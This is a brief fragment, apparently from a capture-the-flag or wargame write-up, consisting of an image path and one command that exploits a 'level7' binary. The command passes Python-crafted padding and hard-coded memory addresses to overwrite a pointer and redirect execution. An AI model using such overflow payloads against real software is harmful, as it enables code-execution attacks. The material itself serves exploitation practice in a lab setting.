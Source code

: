 `./level7 $(python -c 'print "x" * 20 + "\x28\x99\x04\x08"') $(python -c 'print "\xf4\x84\x04\x08"')`